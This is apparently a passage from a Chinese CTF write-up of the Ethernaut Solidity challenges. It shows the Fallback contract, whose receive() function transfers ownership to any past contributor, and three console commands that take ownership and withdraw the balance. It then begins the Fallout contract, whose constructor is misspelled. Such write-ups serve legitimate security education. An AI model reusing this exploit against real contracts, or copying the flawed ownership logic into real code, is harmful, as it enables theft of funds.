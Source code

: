         function getContribution() public view returns (uint) {
            return contributions[msg.sender];
        }

        function withdraw() public onlyOwner {
            payable(owner).transfer(address(this).balance);
        }

        receive() external payable {
            require(msg.value > 0 && contributions[msg.sender] > 0);
            owner = msg.sender;
        }
    }
    ```

题目要求，改变合约所有者为玩家，并取出所有的余额。

根据合约代码，要求玩家的contribution值大于原合约拥有者时移交所有权，但是这是难以实现的，因此需要利用receive函数，这个函数在合约接收交易时就会执行，因此我们只需要先使玩家contribution大于0，并向合约发送大于0的交易即可完成本题。

```js
await contract.contribute({value:1})
await contract.sendTransaction({value:1})
await contract.withdraw()
```

## Fallout

??? question "题目合约"
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    import 'openzeppelin-contracts-06/math/SafeMath.sol';

    contract Fallout {
    
        using SafeMath for uint256;
        mapping (address => uint) allocations;
        address payable public owner;


        /* constructor */
        function Fal1out() public payable {
            owner = msg.sender;
            allocations[owner] = msg.value;
        }

        modifier onlyOwner {
                    require(
                        msg.sender == owner,
                        "caller is not the owner"
                    );
                    _;
                }

        function allocate() public payable {
            allocations[msg.sender] = allocations[msg.sender].add(msg.value);
        }
